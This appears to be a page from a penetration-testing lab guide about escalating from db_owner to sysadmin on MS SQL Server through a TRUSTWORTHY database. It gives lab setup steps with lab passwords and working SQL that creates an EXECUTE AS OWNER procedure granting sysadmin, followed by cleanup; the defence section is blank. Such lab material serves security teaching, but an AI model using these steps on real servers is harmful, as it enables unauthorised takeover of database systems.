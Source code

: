 # DB-Owner

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (3) (1).png>)

3\. Login with the `sa` user using the password `sa` or `Password1!` (Depending if you changed it for another vulnerability)

![](<../../../../.gitbook/assets/image (30) (1).png>)

4\. Click “New Query” button and use the SQL query below to make `Amsterdam\Richard` database owner of the `production` database.

![](<../../../../.gitbook/assets/image (10) (1) (2).png>)

```
Use Production;
EXEC sp_addrolemember [db_owner], [AMSTERDAM\Richard];
```

5\. Change the Owner of the database to the SA account. Right click on "Production", click "Properties" and open the "Files" tab. Click on the "..." and fill in "sa" and click on "OK"

![](<../../../../.gitbook/assets/image (2) (1).png>)

6\. Execute the following query to make sure `Amsterdam\Richard` is Database owner and the real Owner of the database is `sa`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

SELECT suser_sname(owner_sid) FROM sys.databases WHERE name = 'Production'
```

![](<../../../../.gitbook/assets/image (68) (1) (1).png>)

![](<../../../../.gitbook/assets/image (53).png>)

7\. Set the database as trustworthy and check if it is:

```
ALTER DATABASE MyAppDb SET TRUSTWORTHY ON
```

![](<../../../../.gitbook/assets/image (65) (1) (1).png>)

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (39).png>)

The `1` after `Production` shows us that the database is `ThrustWorthy`.

## Attacking

### How it works

If the database is set as trustworthy and we have db\_owner privileges, we could elevate our privileges and execute queries as sa.

### Tools

* [HeidiSql](https://www.heidisql.com)

### Executing attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (58) (1) (1).png>)

4\. Click "OK" on the security Issue warning.

#### Prerequisites

5\. Click on the "Query" tab and enter the following Query to check if we are `db_owner`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```

![](<../../../../.gitbook/assets/image (66) (1) (1).png>)

Our current user `AMSTERDAM\richard` is db\_owner.

6\. Check who is the owner of the database.

```
SELECT suser_sname(owner_sid), * FROM sys.databases
```

![](<../../../../.gitbook/assets/image (59) (1).png>)

`sa` is the owner of the `production` database.

6\. Check if the database is set to trustworthy

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (13) (1) (1).png>)

The Production database is trustworty.

#### Executing the attack

7\. Create a stored procedure which will add `AMSTERDAM\Richard` as sysadmin.

```
USE Production;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'AMSTERDAM\Richard','sysadmin'
```

![](<../../../../.gitbook/assets/image (57) (1).png>)

8\. Execute the stored procedure:

```
USE Production;
EXEC sp_elevate_me
```

![](<../../../../.gitbook/assets/image (1) (1).png>)

9\. Check if we are sysadmin:

```
SELECT is_srvrolemember('sysadmin')
```

![](<../../../../.gitbook/assets/image (34) (1) (1).png>)

The `1` means that we are sysadmin! Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

#### Cleanup

1. Login to WEB01 as Administrator, start the "Microsoft SQL Server Management Studio" and login as Administrator.
2. Execute the following query:

```
EXEC sp_dropsrvrolemember 'AMSTERDAM\Richard','sysadmin';
DROP PROCEDURE sp_elevate_me;
```

## Defending

### Recommendations



### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}
